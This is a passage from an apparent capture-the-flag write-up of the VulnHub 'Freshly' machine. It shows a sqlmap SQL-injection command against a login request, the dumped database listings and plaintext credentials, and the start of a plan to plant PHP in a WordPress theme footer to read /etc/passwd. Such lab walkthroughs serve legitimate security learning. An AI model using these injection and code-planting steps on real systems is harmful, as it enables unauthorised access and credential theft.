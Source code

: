     :::text
    [maggick@rootine sqlmap]$ python2 sqlmap.py -r ~/work/chall/vulnhub/Freshly/longin_req -p user --dbs
    back-end DBMS: MySQL 5.0.12
    [...]
    available databases [7]:
    [*] information_schema
    [*] login
    [*] mysql
    [*] performance_schema
    [*] phpmyadmin
    [*] users
    [*] wordpress8080

Let's dump the interesting databases, `users` and `login`:

users:

    :::text
    Database: login
    Table: users
    [2 entries]
    +----------+-----------+
    | password | user_name |
    +----------+-----------+
    | password | candyshop |
    | PopRocks | Sir       |
    +----------+-----------+

login:

    :::text
    Database: wordpress8080
    Table: users
    [1 entry]
    +----------+---------------------+
    | username | password            |
    +----------+---------------------+
    | admin    | SuperSecretPassword |
    +----------+---------------------+

So we got some passwords. Then let's use the wordpress password.

## Admin, PHP and Flag

We got the admin password for `http://10.0.2.5:8080/wordpress/wp-login`.

![wordpress, admin interface](/media/2015.04/wordpress_admin.png)

As we want to read a file on the system, let's put some PHP code in the theme:
We go to Appearance -> Editor -> Footer (footer.php) and add some PHP code in
order to execute it, let's get the `/etc/passwd` file :
